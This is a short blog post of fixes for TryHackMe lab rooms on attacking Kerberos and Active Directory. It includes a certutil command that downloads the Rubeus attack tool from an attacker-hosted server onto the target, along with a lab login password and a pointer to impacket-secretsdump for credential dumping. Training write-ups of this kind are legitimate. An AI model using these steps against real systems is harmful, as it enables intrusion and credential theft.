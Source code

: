 ```yaml
---
layout: post
title:  "TryHackMe - fixes"
date:   2025-01-12 14:10:00 +1000
categories: blog
tags: [cloud, offsec]
subtitle: "Fighting old battles again?"
---
```


List of issues encountered and their corresponding bypasses / fixes

## Attacking Kerberos

### Harvesting & Brute-Forcing Tickets w/ Rubeus

The middleman machine's RDP never accepts the password provided. 

Luckily, an SSH service is running on the host, atypical for Windows.

First, let's connect via SSH and confirm connectivity
```
ssh Administrator@<KerberosServer>
Password: P@$$W0rd
```

Yay! However, if SSH is utilized, there will be problems compiling software or getting Rubeus on the host as it's not connected to the internet.

Luckily, someone compiled software we need: [https://github.com/r3motecontrol/Ghostpack-CompiledBinaries](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)

On the AttackBox, open terminal tab and run the following commands,
```
mkdir share && cd share
git clone https://github.com/r3motecontrol/Ghostpack-CompiledBinaries
python3 http.server 8000
```

As a sanity-check, on AttackerBox, open Firefox and confirm the Rubeus download URL. It should be,
```
http://<AttackBox_IP>:8000/Ghostpack-CompiledBinaries/Rubeus.exe
```

Then, we can work around connectivity issues using an old OffSec OSCP trick to infiltrate/exfiltrate data. Back to KerberosServer SSH, run:
```
cd Downloads
certutil.exe -urlcache -split -f http://<AttackBox_IP>:8000/Ghostpack-CompiledBinaries/Rubeus.exe Rubeus.exe
```

You should then see a request in the http.server logs. Now you can run Rubeus. Luckily, all required .Net Framework packages are already on the host.

## Attacktive Directory

### Elevating Privileges within the Domain

I encountered issues with the operation of `secretsdump.py` (stock or modified). Maybe it's related to AttackBox, maybe it's related to impacket. However, I found an easy workaround to the problem,

```
apt install python3-impacket
```
 
you should see,

```
After this operation, 27.0 MB of additional disk space will be used.
Do you want to continue? [Y/n] y
```

now you can proceed as follows,

```
impacket-secretsdump <desired-secretsdump.py-command>
```


----------------------
Tim Abdiukov
